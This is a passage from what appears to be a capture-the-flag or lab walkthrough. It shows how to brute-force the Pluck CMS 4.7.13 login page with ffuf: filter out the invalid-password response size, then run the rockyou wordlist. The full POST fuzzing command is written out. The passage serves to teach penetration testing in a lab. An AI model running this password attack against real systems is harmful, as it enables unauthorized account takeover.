 <figure><img src=".gitbook/assets/image (21) (1).png" alt=""><figcaption></figcaption></figure>

We can see that Invalid password page size is `1289`&#x20;

Let's filter that with `-fs 1289` and see what it gives us. We will also switch to the rockyou wordlist located at `/usr/share/wordlists/rockyou.txt`  in our machine.

{% code overflow="wrap" %}
```sh
ffuf -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "cont1=FUZZ&bogus=&submit=Log+in" -w /usr/share/wordlists/rockyou.txt  -u http://<IP>/app/pluck-4.7.13/login.php -fs 1289
```
{% endcode %}

Change the IP for yours.

